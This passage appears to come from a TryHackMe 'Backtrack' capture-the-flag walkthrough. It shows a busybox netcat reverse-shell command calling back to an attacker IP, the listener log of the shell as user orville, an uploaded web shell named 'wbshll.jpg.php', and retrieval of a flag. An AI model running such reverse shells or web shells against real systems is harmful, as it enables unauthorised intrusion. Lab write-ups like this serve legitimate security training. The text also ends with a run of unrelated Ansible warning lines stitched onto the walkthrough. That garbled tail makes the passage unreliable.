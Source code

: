![8](/assets/img/tryhackme/ctf/backtrack/8.png)

We can indeed executes the commands as `orville`. So we use [revshells.com](https://www.revshells.com/) to execute the following command and get a reverse shell as `orville`. Then, we head to `/home/orville` and recover the second flag.

```shell
busybox nc 10.14.83.7 5555 -e sh
```

```shell
$ rlwrap nc -lvnp 5555
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.118.225.
Ncat: Connection from 10.10.118.225:38284.
ls
css
dashboard.php
includes
index.php
login.php
logout.php
navbar.php
register.php
uploads
wbshll.jpg.php
SHELL=/bin/bash script -q /dev/null
orville@Backtrack:/var/www/html$ id
id
uid=1003(orville) gid=1003(orville) groups=1003(orville)
orville@Backtrack:/var/www/html$ cd /home/orville
orville@Backtrack:/home/orville$ ls
ls
flag2.txt  web_snapshot.zip
orville@Backtrack:/home/orville$ cat flag2.txt
cat flag2.txt
THM{[REDACTED]}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-